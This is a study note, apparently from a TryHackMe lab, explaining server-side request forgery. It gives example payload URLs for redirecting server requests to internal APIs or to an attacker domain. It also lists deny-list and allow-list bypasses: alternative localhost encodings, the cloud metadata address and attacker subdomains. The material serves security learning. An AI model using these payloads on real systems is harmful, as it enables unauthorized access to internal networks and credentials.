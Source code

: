 ### Table of contents
- [[#Intro]]
- [[#Methods]]
- [[#Finding an SSRF]]
- [[#Common Defenses]]

___
### Intro
[[#Table of contents|Back to the top]]

**Server-Side Request Forgery**: attacker causes webserver to make additional/edited **HTTP request** to resource chosen by attacker
- **Regular**: data returned to attacker's screen
- **Blind**: no info returned to attacker

$\rightarrow$ Access unauthorized areas
$\rightarrow$ Access customer/organizational data
$\rightarrow$ Scale to internal networks
$\rightarrow$ Reveal authentication tokens/credentials

___
### Methods
[[#Table of contents|Back to the top]]

1. **Complete control** over page requested by server
	- Expected request:
	`http://website.thm/stock?url=http://api.website.thm/api/stock/stock/item?id=123`
	- Target: `http://api.website.thm/api/user`
	- Payload:
	`http://website.thm/stock?url=`**`http://api.website.thm/api/user`**

2. **`../`**: directory traversal
	- Expected request:
	`http://website.thm/stock?url=/item?id=123`
	- Target: `http://website.thm/user`
	- Payload:
	`http://website.thm/stock?url=`**`/../user`**

3. Control of server's **subdomain**
	- Expected request:
	`http://website.thm/stock?server=api&id=123`
	- Target: `http://api.website.thm/api/user`
	- Payload:
	`http://website.thm/stock?server=`**`api.website.thm/api/user&x=&id=123`**

	NB: **`&x=`** stops remaining path from being appended to the end of attacker's URL, instead turns it into parameter

4. Force server to request **server chosen by attacker**
	- Expected request:
	`http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123`
	- Goal: legitimate domain makes request to hacker domain
	- Payload:
	`http://website.thm/stock?url=`**`http://hacker-domain.thm/`**

___
### Finding an SSRF
[[#Table of contents|Back to the top]]

- Full URL used as parameter in address bar
![[Pasted image 20250425101442.png]]

- Hidden field in a form
![[Pasted image 20250425101447.png]]

- Partial URL such as hostname
![[Pasted image 20250425101513.png]]

- URL path
![[Pasted image 20250425101533.png]]

___
### Common Defenses
[[#Table of contents|Back to the top]]

#### Deny List
Everything accepted apart from specified resources in list matching particular pattern
*Points of interest*: restrict access to **localhost**, ***cloud*** environment $\rightarrow$ block access to **`169.254.169.254`** $\rightarrow$ attacker: register subdomain on own domain with DNS record pointing to `169.254.169.254`
*Bypass*: **alternative localhost references** (`0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001`or subdomains with DNS record resolving to `127.0.0.1` such as `127.0.0.1.nip.io`)
#### Allow List
Everything denied unless on list / match particular pattern
Ex: URL parameter must begin with `https://website.thm`
*Bypass*: create subdomain on attacker's domain (ex: `https://website.thm.attackers-domain.thm`)
#### Open Redirect
Visitor gets automatically redirected to other website
Ex: `https://website.thm/link?url=https://tryhackme.com`
*can be exploited by attacker to redirect to attacker domain*